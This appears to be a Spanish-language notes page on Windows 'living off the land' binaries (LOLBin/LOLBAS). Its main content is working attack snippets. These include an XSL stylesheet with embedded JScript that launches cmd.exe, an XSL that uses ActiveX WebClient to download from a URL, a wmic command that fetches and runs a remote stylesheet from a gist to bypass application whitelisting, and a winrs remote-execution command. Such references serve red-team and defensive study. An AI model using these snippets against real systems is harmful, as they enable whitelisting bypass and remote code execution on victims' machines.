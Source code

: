 #  LOLBin
https://twitter.com/search?q=%23LOLBin

# LOLBAS
* https://github.com/api0cradle/LOLBAS
* https://github.com/api0cradle/LOLBAS/tree/master/OSBinaries
* https://github.com/api0cradle/LOLBAS/tree/master/OSLibraries
* https://github.com/api0cradle/LOLBAS/tree/master/OSScripts
* https://github.com/api0cradle/LOLBAS/tree/master/OtherBinaries

# Mostrar los procesos que se están ejecutando en Windows con WMIC
https://www.jesusninoc.com/2018/05/01/mostrar-los-procesos-que-se-estan-ejecutando-en-windows-con-wmic/

# XML 
https://www.w3schools.com/xml/simplexsl.xml

# XSL
https://www.w3schools.com/xml/simple.xsl

# XSL que ejecuta CMD
https://gist.githubusercontent.com/caseysmithrc/68924cabbeca1285d2941298a5b91c24/raw/78065ca63504c9a0f41107137fbe861de487e4d4/minimalist
```XSL
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
	<![CDATA[
	var r = new ActiveXObject("WScript.Shell").Run("cmd.exe");
	]]> </ms:script>
</stylesheet>
```

# XSL que descarga
https://gist.githubusercontent.com/caseysmithrc/4932a527e326de68f3bd212913d02c78/raw/8dd9696e937a7e66972a2e95c0d65a83ec9e3d7c/dotnet.xsl
```XSL
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
	<![CDATA[
		
			
	var manifest = '<?xml version="1.0" encoding="UTF-16" standalone="yes"?><assembly manifestVersion="1.0" xmlns="urn:schemas-microsoft-com:asm.v1"><assemblyIdentity name="System" version="4.0.0.0" publicKeyToken="B77A5C561934E089" /><clrClass clsid="{7D458845-B4B8-30CB-B2AD-FC4960FCDF81}" progid="System.Net.WebClient" threadingModel="Both" name="System.Net.WebClient" runtimeVersion="v4.0.30319" /></assembly>';
	
	try {
		var ax = new ActiveXObject("Microsoft.Windows.ActCtx");
		ax.ManifestText = manifest;
		
		var obj = ax.CreateObject("System.Net.WebClient");
		var webstuff = obj.DownloadString("http://www.example.com");
		var a = new ActiveXObject("WScript.Shell").Popup(webstuff);
		
	} catch(e) {
		WScript.Echo("Error: " + e.message);
	}
	]]> </ms:script>
</stylesheet>
```

# WMIC.EXE Whitelisting Bypass - Hacking with Style, Stylesheets
https://subt0x11.blogspot.com.es/2018/04/wmicexe-whitelisting-bypass-hacking.html

```CMD
wmic os get /format:”https://gist.githubusercontent.com/caseysmithrc/68924cabbeca1285d2941298a5b91c24/raw/78065ca63504c9a0f41107137fbe861de487e4d4/minimalist”
```

# Hack With XSLT
https://evi1cg.me/archives/Hack_With_XSLT.html

# CSharp, DotNetToJScript, XSL
https://rastamouse.me/2018/05/csharp-dotnettojscript-xsl/

# WInRm Via Use winrs .exe in Launch Command Remotely
```CMD
#EnableAccess  
winrm.exe quickconfig
winrs -r:http://#SystemName:5985 -u:Domain\#Username "calc.exe"
```
# Hacking around HTA files
http://blog.sevagas.com/?Hacking-around-HTA-files
